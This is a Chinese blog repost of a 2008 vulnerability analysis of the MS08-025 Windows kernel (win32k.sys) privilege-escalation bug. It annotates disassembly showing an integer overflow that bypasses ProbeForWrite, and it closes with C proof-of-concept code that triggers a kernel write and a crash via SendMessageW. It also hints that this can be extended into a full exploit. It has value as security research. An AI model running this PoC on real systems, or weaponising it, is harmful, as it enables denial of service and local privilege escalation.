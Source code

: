 ```yaml
---
title: ms08025 分析 Windows的内核漏洞
description: 4月8号microsoft再次发布了一个系统内核的补丁(KB941693),微软对该漏洞描述为:此安全更新解决Windows内核中一个秘密报告的漏洞。成功利用此漏洞的本地攻击者可以完全控制受影响的系统。攻击者可随后安装程序；查看、更改或删除数据；或者创建新帐户。这是用于Windows2000、WindowsXP、WindowsServer2003、WindowsVista和WindowsServer2008所有受支持版本的重要安全更新。此安全更新通过修改Windows内核验证从用户模式传递过来的输入的方式来解决此漏洞。从这个介绍中我们看到这个漏洞影响非常广，从2000到2008。为了能一睹这个漏洞的细节，我分析了ms08-025的补丁，发现该漏洞存在于win32k.sys模块中。在这个补丁中修补了win32k.sys中的多个地方，其中出问题的地方非常有趣，是因为溢出寄存器来绕过ProbeForWrite函数对用户层传来的指针的检查，下面我们就从NtUserfnOUTSTRING函数中的问题来展开我们的分析(我分析的平台是winxpsp2)
date: 2008-04-14 09:06:20
category: 漏洞信息
tags: ['0day', 'exploit', '漏洞信息', 'Windows']
post_id: 450
alias: ms08025-fenxi-windows-loudong
ViewNums: 5268
---
```


[夜火](/blog/)这**MS08025漏洞**的报告出来有段时间了，一直没看到比较详细的关于MS08025漏洞的东西，今天终于看到了[安全焦点](http://www.xfocus.net/)的关于MS08025漏洞的分析

From:安全焦点
Author: Polymorphours
Email: Polymorphours@whitecell.org
Homepage:[http://www.whitecell.org](http://www.whitecell.org/ "http://www.whitecell.org")
Date: 2008-04-10

经内部讨论后决定公布分析成果。

4月8号[microsoft](http://www.microsoft.com)再次发布了一个系统内核的补丁(KB941693),微软对该[漏洞描述](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)为: 此[安全](/tags/%E5%AE%89%E5%85%A8)更新解决 [Windows](/tags/Windows) 内核中一个秘密报告的漏洞。 成功利用此漏洞的本地攻击者可以完全控制受影响的系统。 攻击者可随后安装程序；查看、更改或删除数据；或者创建新帐户。这是用于 Windows 2000、Windows XP、Windows Server 2003、Windows Vista 和 Windows Server 2008 所有受支持版本的重要安全更新。此安全更新通过修改 Windows 内核验证从用户模式传递过来的输入的方式来解决此漏洞。

从这个介绍中我们看到这个漏洞影响非常广，从2000到2008。为了能一睹这个漏洞的细节，我分析了**ms08-025**的补丁，发现该漏洞存在于win32k.sys 模块中。在这个补丁中修补了win32k.sys中的多个地方，其中出问题的地方非常有趣，是因为[溢出](/blog/buffer-overflow-tutorial-ebook-iso-download)寄存器来绕过 ProbeForWrite函数对用户层传来的指针的检查，下面我们就从 NtUserfnOUTSTRING函数中的问题来展开我们的分析(我分析的平台是winxp sp2)

.text:BF86FB04 ; int __stdcall NtUserfnOUTSTRING(int,int,int,PVOID Address,int,int,int)
.text:BF86FB04 __stdcall NtUserfnOUTSTRING(x, x, x, x, x, x, x) proc near
.text:BF86FB04 ; CODE XREF: xxxDefWindowProc(x,x,x,x)+6Ep
.text:BF86FB04 ; NtUserMessageCall(x,x,x,x,x,x,x)+61p
.text:BF86FB04 ; xxxSendMessageToClient(x,x,x,x,x,x,x)-Ep
.text:BF86FB04 ; xxxSendMessageToClient(x,x,x,x,x,x,x)+6Dp
.text:BF86FB04 ; xxxWrapCallWindowProc(x,x,x,x,x)-4Bp
.text:BF86FB04 ; xxxWrapCallWindowProc(x,x,x,x,x)+60p ...
.text:BF86FB04
.text:BF86FB04 var_24 = dword ptr -24h
.text:BF86FB04 var_20 = dword ptr -20h
.text:BF86FB04 UserBuffer = dword ptr -1Ch
.text:BF86FB04 ms_exc = CPPEH_RECORD ptr -18h
.text:BF86FB04 arg_0 = dword ptr 8
.text:BF86FB04 arg_4 = dword ptr 0Ch
.text:BF86FB04 arg_8 = dword ptr 10h
.text:BF86FB04 Address = dword ptr 14h
.text:BF86FB04 arg_10 = dword ptr 18h
.text:BF86FB04 arg_14 = dword ptr 1Ch
.text:BF86FB04 arg_18 = dword ptr 20h
.text:BF86FB04
.text:BF86FB04 ; FUNCTION CHUNK AT .text:BF86FAE1 SIZE 0000001E BYTES
.text:BF86FB04
.text:BF86FB04 push 14h
.text:BF86FB06 push offset unk_BF98D250
.text:BF86FB0B call __SEH_prolog
.text:BF86FB0B
.text:BF86FB10 xor edx, edx
.text:BF86FB12 mov [ebp+ms_exc.disabled], edx
.text:BF86FB15 mov eax, [ebp+var_20]
.text:BF86FB18 mov ecx, 7FFFFFFFh
.text:BF86FB1D and eax, ecx
.text:BF86FB1F mov esi, [ebp+arg_18]
.text:BF86FB22 shl esi, 1Fh
.text:BF86FB25 or eax, esi
.text:BF86FB27 mov [ebp+var_20], eax
.text:BF86FB2A mov esi, eax
.text:BF86FB2C xor esi, [ebp+arg_8] -> esi = 缓冲区长度
.text:BF86FB2F and esi, ecx
.text:BF86FB31 xor eax, esi
.text:BF86FB33 mov [ebp+var_20], eax
.text:BF86FB36 cmp [ebp+arg_18], edx -> 如果是 ansi 方式就直接进行检查，否则需要计算unicode的大小
.text:BF86FB39 jnz short loc_BF86FB47
.text:BF86FB39
.text:BF86FB3B lea esi, [eax+eax] <- 注意这里，问题就在这里，此时 eax = unicode字符串的长度，
<- 当 eax = 0x80000000 的时候 eax + eax = 0x100000000，32位的寄存器
<- 被溢出了，esi = 0
.text:BF86FB3E xor esi, eax
.text:BF86FB40 and esi, ecx
.text:BF86FB42 xor eax, esi
.text:BF86FB44 mov [ebp+var_20], eax -> 保存unicode占用的空间大小
.text:BF86FB44
.text:BF86FB47
.text:BF86FB47 loc_BF86FB47: ; CODE XREF: NtUserfnOUTSTRING(x,x,x,x,x,x,x)+35j
.text:BF86FB47 mov [ebp+var_24], edx
.text:BF86FB4A mov esi, [ebp+Address]
.text:BF86FB4D mov [ebp+UserBuffer], esi
.text:BF86FB50 xor ebx, ebx
.text:BF86FB52 inc ebx
.text:BF86FB53 push ebx ; Alignment
.text:BF86FB54 and eax, ecx
.text:BF86FB56 push eax ; Length <- 由于 eax = 0，所以ProbeForWrite被绕过
.text:BF86FB57 push esi ; Address
.text:BF86FB58 call ds:ProbeForWrite(x,x,x)

bf80a1b0 e96ef4ffff jmp win32k!xxxRealDefWindowProc+0x1235 (bf809623)
bf80a1b5 d1e8 shr eax,1
bf80a1b7 894510 mov [ebp+0x10],eax
bf80a1ba ebf1 jmp win32k!xxxRealDefWindowProc+0x190 (bf80a1ad)
bf80a1bc 8b4514 mov eax,[ebp+0x14]
bf80a1bf f6400780 test byte ptr [eax+0x7],0x80
bf80a1c3 8b4008 mov eax,[eax+0x8]
bf80a1c6 7408 jz win32k!xxxRealDefWindowProc+0x105 (bf80a1d0)
bf80a1c8 c60000 mov byte ptr [eax],0x0
bf80a1cb e951f4ffff jmp win32k!xxxRealDefWindowProc+0x1225 (bf809621)
bf80a1d0 668910 mov [eax],dx <- 在这里，对前面传入的指针进行了2个字节的写操作，写入的数据为0
bf80a1d3 e949f4ffff jmp win32k!xxxRealDefWindowProc+0x1225 (bf809621)
bf80a1d8 6a00 push 0x0
bf80a1da 6a02 push 0x2
bf80a1dc ff7638 push dword ptr [esi+0x38]
bf80a1df e8d1690200 call win32k!BuildHwndList (bf830bb5)
bf80a1e4 8bf8 mov edi,eax
bf80a1e6 85ff test edi,edi
bf80a1e8 0f8433f4ffff je win32k!xxxRealDefWindowProc+0x1225 (bf809621)
bf80a1ee 8d7710 lea esi,[edi+0x10]

那么怎么触发这个漏洞呢，我又分析了 user32.dll 和 win32k!NtUserMessageCall，发现触发这个漏洞很简单，只需要调用 SendMessageW 发送WM_GETTEXT 消息就能够触发了，下面是poc代码(注，改代码运行后由于在内核写了未映射的内存，会直接蓝屏，要改成可用的[exploit](/tags/exploit)，可以参考我以前的exploit)

#include <stdio.h>
#include <windows.h>

int main(int argc,char *argv[])
{
DWORD dwHookAddress = 0x80000000;

printf( " MS08-025 Local Privilege Escalation Vulnerability Exploit(POC)
" );
printf( "Create by Whitecell's Polymorphours@whitecell.org 2008/04/10
" );

SendMessageW( GetDesktopWindow(), WM_GETTEXT, 0x80000000, dwHookAddress );
return 0;
}

WSS(Whitecell Security Systems)，一个非营利性民间技术组织，致力于各种系统安全技术的研究。坚持传统的hacker精神，追求技术的精纯。
WSS 主页：[http://www.whitecell.org/](http://www.whitecell.org/ "http://www.whitecell.org/")
WSS 论坛：[http://www.whitecell.org/forums/](http://www.whitecell.org/forums/ "http://www.whitecell.org/forums/")

